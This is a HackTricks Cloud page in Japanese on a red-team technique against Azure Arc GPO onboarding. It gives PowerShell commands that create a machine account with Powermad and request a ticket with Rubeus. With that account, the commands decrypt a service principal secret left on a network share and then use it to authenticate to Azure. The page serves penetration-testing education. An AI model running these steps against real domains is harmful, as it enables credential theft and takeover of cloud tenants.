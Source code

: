 # Az - Azure Arc 脆弱な GPO デプロイスクリプト

{% hint style="success" %}
AWS ハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP ハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks のサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に**参加**または [**telegram グループ**](https://t.me/peass) に**参加**または **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** を**フォロー**してください**.**
* **HackTricks** と **HackTricks Cloud** の github リポジトリに PR を提出して**ハッキングトリックを共有**してください**.

</details>
{% endhint %}

### 問題の特定

Azure Arc は、新しい内部サーバー（ドメインに参加したサーバー）を Azure Arc に統合するために、Group Policy Object メソッドを使用します。このために、Microsoft は、オンボーディング手順を開始するために必要な展開ツールキットを提供しています。ArcEnableServerGroupPolicy.zip ファイル内には、DeployGPO.ps1、EnableAzureArc.ps1、および AzureArcDeployment.psm1 というスクリプトが含まれています。

DeployGPO.ps1 スクリプトを実行すると、次のアクションが実行されます:

1. ローカルドメイン内に Azure Arc サーバーオンボーディング GPO を作成します。
2. オンボーディングプロセス用に作成された指定されたネットワーク共有に EnableAzureArc.ps1 オンボーディングスクリプトをコピーします。この共有には Windows インストーラーパッケージも含まれています。

このスクリプトを実行する際、システム管理者は **ServicePrincipalId** と **ServicePrincipalClientSecret** の 2 つの主要なパラメータを提供する必要があります。さらに、ドメイン、共有をホストするサーバーの FQDN、共有名などの他のパラメータが必要です。テナント ID、リソースグループ、およびその他の必要な情報もスクリプトに提供する必要があります。

AzureArcDeploy ディレクトリ内に DPAPI-NG 暗号化を使用して暗号化されたシークレットが生成されます。暗号化されたシークレットは、encryptedServicePrincipalSecret というファイルに保存されます。この暗号化は、DeployGPO.ps1 スクリプト内で行われ、ProtectBase64 が $descriptor と $ServicePrincipalSecret を入力として呼び出されることで実行されます。ディスクリプタには、Domain Computer と Domain Controller グループの SID が含まれており、スクリプトコメントに記載されているように、ServicePrincipalSecret は Domain Controllers および Domain Computers セキュリティグループによってのみ復号化できるようになっています。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### 攻撃手法

以下の条件を満たしています：

1. 内部ネットワークに侵入に成功しました。
2. Active Directory内でコンピューターアカウントを作成したり、制御を仮定する能力を持っています。
3. AzureArcDeployディレクトリが含まれるネットワーク共有を発見しました。

AD環境内でマシンアカウントを取得する方法はいくつかあります。最も一般的な方法の1つは、マシンアカウントのクォータを悪用することです。別の方法としては、脆弱なACLやさまざまな他の誤った構成を介してマシンアカウントを危険にさらすことがあります。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一度マシンアカウントを取得すると、このアカウントを使用して認証することが可能です。runas.exeコマンドをnetonlyフラグと共に使用するか、Rubeus.exeを使用してpass-the-ticketを行うことができます。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
私たちのコンピューターアカウントのTGTがメモリに保存されている場合、次のスクリプトを使用してサービスプリンシパルシークレットを復号化できます。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

この時点で、Azureに接続するために必要な残りの情報を収集することができます。これは、encryptedServicePrincipalSecretファイルと同じネットワーク共有に保存されているArcInfo.jsonファイルから取得できます。このファイルには、TenantId、servicePrincipalClientId、ResourceGroupなどの詳細が含まれています。この情報を使用して、Azure CLIを使用して侵害されたサービス プリンシパルとして認証することができます。

## 参考文献

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
